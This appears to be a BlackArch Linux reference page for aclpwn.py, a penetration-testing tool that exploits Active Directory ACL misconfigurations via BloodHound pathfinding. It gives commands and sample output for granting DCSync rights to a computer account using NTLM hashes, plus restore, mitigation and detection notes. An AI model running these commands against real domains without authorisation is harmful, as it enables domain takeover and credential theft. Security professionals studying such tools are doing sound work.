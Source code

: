 ```yaml
---
name: aclpwn
url: https://github.com/fox-it/aclpwn.py
description: Active Directory ACL exploitation with BloodHound.
group: blackarch blackarch-exploitation
---
```


# aclpwn

## Description
A tool that interacts with [BloodHound](https://github.com/BloodHoundAD/BloodHound) to identify and exploit ACL based privilege escalation paths. It takes a starting and ending point and will use Neo4j pathfinding algorithms to find the most efficient ACL based privilege escalation path. Aclpwn.py is similar to the PowerShell based [Invoke-Aclpwn](https://github.com/fox-it/Invoke-ACLPwn).

## Groups
- blackarch
- blackarch-exploitation

## Tool functions
- Direct integration with BloodHound and the Neo4j graph database (fast pathfinding)
- Supports any reversible ACL based attack chain (no support for resetting user passwords right now)
- Advanced pathfinding (Dijkstra) to find the most efficient paths
- Support for exploitation with NTLM hashes (pass-the-hash)
- Saves restore state, easy rollback of changes
- Can be run via a SOCKS tunnel
- Written in Python (2.7 and 3.5+), so OS independent

## Installation
Instructions on how to install the tool or package on BlackArch Linux.

```
pacman -S aclpwn
```

## Usage examples
### Finding your exploit path
This quickstart assumes you already have BloodHound installed and running, and have imported the ACL data from the SharpHound data collector. You should have identified an ACL attack path you want to exploit, like the Exchange server privilege escalation shown below.
<details>
<summary role="button">Click to expand image</summary>
<img src="/media/aclpwn_exchange_privesc.png"
/>
</details>
Now the two important objects to keep in mind here are the starting point and ending point, in this example the `s2012exc` computer and the `testsegment.local` domain.

You can run aclpwn.py and instruct it to find the same path with the following command:
```
aclpwn -f s2012exc -ft computer -t testsegment.local -tt domain -d testsegment.local -dry
```
This is the explicit version of the command. Because escalating to the domain is default, the `-t` and `-tt` parameters could also be omitted in this case:
```
aclpwn -f s2012exc -ft computer -d testsegment.local -dry
```
The `-dry` parameter will make sure aclpwn will only show you the path and not attempt to exploit it. This should show the same path you identified in BloodHound, but then in textual form:
```
[+] Path found!
Path: (S2012EXC.TESTSEGMENT.LOCAL)-[MemberOf]->(EXCHANGE TRUSTED SUBSYSTEM@TESTSEGMENT.LOCAL)-[MemberOf]->(EXCHANGE WINDOWS PERMISSIONS@TESTSEGMENT.LOCAL)-[WriteDacl]->(TESTSEGMENT.LOCAL)
[+] Path validated, the following modifications are required for exploitation in the current configuration:
[-] Modifying domain DACL to give DCSync rights to S2012EXC$
```
There are some different pathfinding methods, by default the Dijkstra algorithm will be used to calculate the most efficient path. For other options, see the pathfinding page on the wiki.

### Exploiting the path
To exploit the path above, simply run the same command but now without the `-dry` option. This requires you to be able to connect to a domain controller of the domain you are escalating in. By default aclpwn will attempt to resolve the domain name and connect to the first DC available. If you want to connect to a specific host or IP, specify this with the `--server` parameter. There are some advanced exploit options, see the page on exploitation for details.

Since in this case we are escalating from a computer account, we will need the LM:NTLM hashes of this computer account. You can either specify those on the command line or enter them when prompted:
```
(aclpwn) user@localhost:~/aclpwn$ python aclpwn.py -f s2012exc -ft computer -d testsegment.local 
Please supply the password or LM:NTLM hashes of the account you are escalating from: 
[+] Path found!
Path: (S2012EXC.TESTSEGMENT.LOCAL)-[MemberOf]->(EXCHANGE TRUSTED SUBSYSTEM@TESTSEGMENT.LOCAL)-[MemberOf]->(EXCHANGE WINDOWS PERMISSIONS@TESTSEGMENT.LOCAL)-[WriteDacl]->(TESTSEGMENT.LOCAL)
[-] Memberof -> continue
[-] Memberof -> continue
[-] Modifying domain DACL to give DCSync rights to S2012EXC$
[+] Dacl modification successful
[+] Finished running tasks
[+] Saved restore state to aclpwn-20181129-182321.restore
```
aclpwn now performed the modifications and the S2012EXC computer account has privileges to perform DCSync, which can be performed using secretsdump.py (part of impacket).

### Restoring the privileges
A restore file is automatically generated even when something goes wrong in the exploitation chain. After the privileges are no longer needed, you can run the same command with the `--restore` option and specify the restore file. This will ignore all the other command line options except the `--server` option which can still be used to manually specify a domain controller address:
```
(aclpwn) user@localhost:~/aclpwn$ python aclpwn.py -f s2012exc -ft computer -d testsegment.local --restore aclpwn-20181129-182321.restore
Please supply the password or LM:NTLM hashes for the account S2012EXC.TESTSEGMENT.LOCAL: 
[-] Removing ACE using manual approach
[+] Domain Sync privileges restored successfully
```

## Additional Resources
**Mitigations and detection:** aclpwn does not exploit any vulnerabilities, but relies on misconfigured (often because of delegated privileges) or insecure default ACLs. To solve these issues, it is important to identify potentially dangerous ACLs in your Active Directory environment with BloodHound. For detection, Windows Event Logs can be used. The relevant event IDs are described in the developer's [blog](https://blog.fox-it.com/2018/04/26/escalating-privileges-with-acls-in-active-directory/).

## Disclaimer
It is important to note that the use of this tool for any illegal or unauthorized activities is strictly prohibited. The creators of this tool and BlackArch Linux will not be held liable for any actions taken with its use. This tool is intended for use by security professionals and researchers for lawful and ethical testing purposes only. Remember, always obtain proper authorization and comply with all relevant laws and regulations when using this tool or any other security tool.
